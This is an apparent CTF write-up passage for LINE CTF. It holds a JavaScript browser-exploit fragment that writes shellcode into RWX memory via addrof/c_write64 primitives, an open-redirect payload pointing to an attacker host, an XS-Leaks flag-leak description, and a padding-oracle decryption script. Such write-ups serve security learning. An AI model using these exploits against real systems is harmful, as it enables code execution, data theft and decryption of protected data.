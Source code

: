 ```js
let typed_arr = new Uint32Array(0x200);
let typed_arr_addr = addrof(typed_arr);

c_write64(typed_arr_addr+0x28n, rwx);

for (let i = 0; i < shellcode.length; i++) {
  typed_arr[i] = shellcode[i];
}

f();
```



**atelier** - https://gist.github.com/wbowling/139155c0e6ed0ea65bafa06d62d66eb5



**pprofile** - https://gist.github.com/sampritipanda/3ad8e88f93dd97e93f070a94a791bff6



### web

**your-note**

```
there is open redirect in /login?redirect=, an example payload:  /login?redirect=.attacker.com/ which will redirect bot to our controlled host.
there is note download functionality which lets us to leak flag.
using https://xsleaks.dev/docs/attacks/navigations/#download-navigation-without-iframes we can leak the flag char by char.
```



**3233**

```python
import socketio
import requests
import string, random

HOST = "http://34.85.35.9" 

# TO_DECRYPT = b'\x0eN\x91\x03\x8dQ;R.\x11\xfc\xc1\xee\xb5P\xdf\xa7\xc7\x9fE\x98\xa8\xeb3a\x0f.fV\x80\xbc\x83'
# TO_DECRYPT = b'\xc6\xc7t\xdfv\xd2\x84!t\x1d\x95\x19\x92\xbe\xe5\x87\xd5^\x1d\xbcJu d\\^n\x0c9\xd7\x0f\x95'
TO_DECRYPT = b'k\xab\xc6\xec\xa8i@\x89\x06V\x9b\xd6\x07:B\xc1U>\x15\xf5\xfa\xdaj3\x18\xdc\xa1\xd5P\xa5\xae\xb4\xda\xab\xeb\xc9d\x05\xb8\xeck:\x92\x15Sv\xf6\xb5'

# TO_DECRYPT = b'\xd4\x88\xb6\x0e\xe1\xb5\xde+"\xa0%!\x9a\xec@\xcbB\xce\x13\xa2Z\x1de\xa9%\xaa\x9b\xb4Fzw\xc2\xc9\xb1A?\xf8/>\xb7\x02=\x17\x7fq\xe3q\x02'

DECRYPT_BLOCK = 2

KNOWN_IV = TO_DECRYPT[((DECRYPT_BLOCK-1) * 16):DECRYPT_BLOCK*16]
BLOCK = TO_DECRYPT[(DECRYPT_BLOCK)*16:(DECRYPT_BLOCK+1)*16]

KNOWN = b'LINECTF{3av3sdr0'
KNOWN = b'pr3p1ay0rac13!}\x01'
print(len(KNOWN))

PADDING_LEN = len(KNOWN)+1
PADDING = b""

for m in range(len(KNOWN)):
    PADDING += bytes([KNOWN[m] ^ KNOWN_IV[(-len(KNOWN)+m)] ^ PADDING_LEN])

```
